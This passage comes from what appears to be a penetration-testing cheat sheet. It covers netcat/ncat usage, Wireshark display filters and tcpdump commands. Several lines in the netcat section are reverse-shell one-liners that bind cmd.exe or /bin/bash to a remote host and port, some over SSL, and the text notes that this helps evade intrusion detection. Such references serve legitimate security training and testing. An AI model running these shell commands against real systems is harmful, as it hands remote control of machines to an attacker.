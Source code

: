         or
        
        `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`

    -   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`
        
    -   Netcat for Banner Grabbing:
    
        `echo "" | nc -nv -w1 <IP Address> <Ports>`

-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS

    -   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    -   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`

-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:
    
        `tcp.port eq 25 or icmp`
        
    -   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:
        
        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`
        
    -   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:
        
        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`
        
    -   Some commands are equal
        
        `ip.addr == xxx.xxx.xxx.xxx`
        
         Equals
        
        `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx `

        ` ip.addr != xxx.xxx.xxx.xxx`
        
         Equals
        
        `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`

-   Tcpdump

    -   Display a pcap file  
       `tcpdump -r passwordz.pcap`

    -   Display ips and filter and sort  
        `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`

    -   Grab a packet capture on port 80  
        `tcpdump tcp port 80 -w output.pcap -i eth0`

    -   Check for ACK or PSH flag set in a TCP packet  
        `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`


Information Gathering & Vulnerability Scanning
===================================================================================================================================
